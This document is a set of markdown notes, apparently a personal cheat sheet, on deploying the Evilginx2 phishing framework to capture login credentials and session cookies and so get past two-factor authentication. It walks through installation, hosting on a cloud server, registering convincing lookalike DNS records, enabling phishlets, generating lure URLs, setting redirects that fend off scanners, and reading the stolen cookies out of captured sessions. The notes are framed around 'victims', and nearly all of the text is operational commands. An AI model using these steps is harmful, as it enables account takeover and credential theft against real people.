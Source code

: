 

```https://github.com/kgretzky/evilginx2```

```NOTE: You can run EVILGINX2 in a tmux session so that when you quit your ssh connection, the tool keeps on running.```

Commands: https://en.kali.tools/?p=963

### Introduction:

Evilginx2 is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection. 
What is means is Evilginx2 is siting in the communication between our victim and the actual legitimate login page capturing all traffic passed through. This means we can also capture the session cookies and inout them into our own browser allowing us to successfully authenticate ourselves as the victim, when it is time to login with the credentials we have aquired.

### Installation:

```sudo apt update```

```sudo apt install git```

```sudo apt install git make```

```sudo apt install golang-go```

```sudo apt-get -y install git make```

```git clone https://github.com/kgretzky/evilginx2.git```

```cd evilginx2```

```make```

* If everything was done right you should be able to go ahead and run the program:
            
```sudo ./bin/evilginx -p ./phishlets/```
            
NOTE: Ignore warning - ```[!!!] Failed to start nameserver on port 53```

### Configuring EvilGinx2 on Cloud:

[scp yaml file into EC2 instance] - ```scp -i /home/kali/Desktop/Runner_temp/AWS/google_god.pem /home/kali/Pictures/google.yaml ~ ubuntu@34.216.90.19:```


* Now that evilginx2 is istalled and running it is time to finish setting up the program to exucute the way we want it to (Complete the steps to properly configure evilginx2:):

* Set up the domain you are using (Enter the domain that you are using): 
            
```config domain raymondspizzeria.cf```
            
* Tell evilginx what IP it should be running on (Enter the ip from your ec2 instance):
            
```config ip 44.201.169.181```

***

* Now we are going to create additional DNS Record that will be used when our victim actually clicks to be directed to our domain page (Go back over to freenom and go into DNS Management):
            
Instead of just showing the main domain that we have aquired we are going to create some more realistic DNS records that can help make the full URL more believable for whatever we are choosing to do

Go back to the site you obtained domain from and go into DNS setting to create one
            
            name: login.raymondspizzeria.cf | Type: A | Target or Value: <ec2 ip> 44.201.169.181


### Configuring EvilGinx2 on Host:

```
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2                                       
make           
sudo cp bin/evilginx /usr/bin
sudo cp -r phishlets/ /usr/share/evilginx/
sudo cp -r templates /usr/share/evilginx/
sudo evilginx
```

Run evilginx2 and if the phishlets have been loaded successfully you should see the tool run. 

Now you need to edit the config and ``` add your domain and IP and the redirect URL. ```

[ Any scanners scanning your domain without the ```lure parameter``` will automatically get redirected to the "redirect_url" you set up here ]

We also need to setup a TLS Certificate for our domain. the Evilginx tool can handle all that for us. 

ENTER:

``` 
: phishlets hostname therecap
therecap.tk
: phishlets enable therecap
```

***

***

### After installation Set-up:

* We need to choose one of the phishlets that we weant to use and configure it in evilginx:
            
```phishlets hostname <pick one, i like onelogin> <enetr whatever dns we just created>```
            
[ex.] ```phishlets hostname onelogin login.raymondspizzeria.cf```
[output] ```[04:57:58] [inf] disabled phishlet 'onelogin'```
            
* Now we need to enable the phishlet 'onelogin' that we just configured:
            
```phishlets enable onelogin```
            
* Next we need to creates out lures:
            
```lures create onelogin```
            
[output] ```[04:31:37] [inf] created lure with ID: 0```
            
* Next we are going to want to get our actual url for out phish:
            
```lures get-url 0```

[ Now open a new wwbbrowser and test out this new link produced by Evilginx and make sure that it works ! ! ! ]

***

We also need to add the URL the victim will be redirected to AFTER logging in. This is different from the ```config redirect_url``` as that one is for the scanners and unintended users and this one is for the victims post-login. - (The default redirect url is YT rickroll)

```
: lures edit 1 redirect_url
https://www.therecap.org/
[04:46:06] [inf] redirect_url =
'https://www.therecap.org/'
```

Once that is in you can navigate to the lure URL to make sure its works properly.



***

### Tokens and Credentials:

```lures``` -  Shows all current actives lures that are available to be used

```sessions``` - Shows active sessions currently runnings 

```sessions <session_# Here>``` - will display all credentials and cookies captured fromt he session you choose 
